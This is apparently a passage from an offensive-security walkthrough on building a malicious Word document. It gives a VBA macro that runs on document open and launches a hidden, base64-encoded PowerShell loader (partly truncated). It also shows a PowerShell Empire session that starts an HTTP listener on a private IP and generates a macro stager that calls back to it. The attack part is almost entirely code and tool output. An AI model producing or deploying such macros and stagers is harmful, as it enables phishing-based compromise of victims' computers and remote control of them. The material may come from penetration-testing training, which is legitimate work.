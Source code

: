 Next create a new macro and copy-paste the file into the macro

Finally create a word macro and past the shell code in like so:

```sh
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    Str = "powershell.exe -nop -w hidden -e JABzACAAPQAgAE4AZ"
    Str = Str + "QB3AC0ATwBiAGoAZQBjAHQAIABJAE8ALgBNAGUAbQBvAHIAeQB"
    Str = Str + "TAHQAcgBlAGEAbQAoACwAWwBDAG8AbgB2AGUAcgB0AF0AOgA6A"
    Str = Str + "EYAcgBvAG0AQgBhAHMAZQA2ADQAUwB0AHIAaQBuAGcAKAAnAEg"
    Str = Str + "ANABzAEkAQQBBAEEAQQBBAEEAQQBFAEEATAAxAFgANgAyACsAY"
    Str = Str + "gBTAEIARAAvAG4ARQBqADUASAAvAGgAZwBDAFoAQwBJAFoAUgB"
    ...
    Str = Str + "AZQBzAHMAaQBvAG4ATQBvAGQAZQBdADoAOgBEAGUAYwBvAG0Ac"
    Str = Str + "AByAGUAcwBzACkADQAKACQAcwB0AHIAZQBhAG0AIAA9ACAATgB"
    Str = Str + "lAHcALQBPAGIAagBlAGMAdAAgAEkATwAuAFMAdAByAGUAYQBtA"
    Str = Str + "FIAZQBhAGQAZQByACgAJABnAHoAaQBwACkADQAKAGkAZQB4ACA"   
    Str = Str + "AJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAVABvAEUAbgBkACgAK"
    Str = Str + "QA=" 
    
    CreateObject("Wscript.Shell").Run Str 
End Sub
```

Now save the file as either a `docm` file type or a `doc` (older) file type 

**ALTERNATIVELY**

we can use powershell empire

```sh
(Empire) > listeners
(Empire: listeners) > uselistener http
(Empire: listeners/http) > set Host 192.168.119.194
(Empire: listeners/http) > set Name exploit
(Empire: listeners/http) > execute
[*] Starting listener 'exploit'
 * Serving Flask app "http" (lazy loading)
 * Environment: production
   WARNING: This is a development server. Do not use it in a production deployment.
   Use a production WSGI server instead.
 * Debug mode: off
[+] Listener successfully started!
(Empire: listeners/http) > back
(Empire: listeners) > usestager windows/macro
(Empire: stager/windows/macro) > listeners

[*] Active listeners:

  Name              Module          Host                                 Delay/Jitter   KillDate
  ----              ------          ----                                 ------------   --------
  exploit           http            http://192.168.119.194:80            5/0.0                  

(Empire: stager/windows/macro) > set Listener exploit
(Empire: stager/windows/macro) > execute

[*] Stager output written out to: /tmp/macro
```